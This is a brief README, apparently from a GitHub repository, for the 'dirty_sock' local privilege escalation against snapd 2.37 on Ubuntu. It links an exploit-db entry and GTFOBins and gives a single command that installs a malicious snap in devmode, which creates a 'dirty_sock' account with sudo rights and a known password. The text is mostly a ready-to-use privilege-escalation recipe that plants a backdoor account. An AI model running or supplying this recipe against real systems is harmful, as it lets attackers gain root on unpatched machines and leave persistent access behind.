 # snapd-2.37-Ubuntu---dirty_sock-Local-Privilege-Escalation-2-

https://www.exploit-db.com/exploits/46362

https://gtfobins.github.io/gtfobins/snap/

```
sudo snap install pwn.snap --dangerous --devmode
```

You can now `su` to the following account and use sudo:
username: dirty_sock
password: dirty_sock
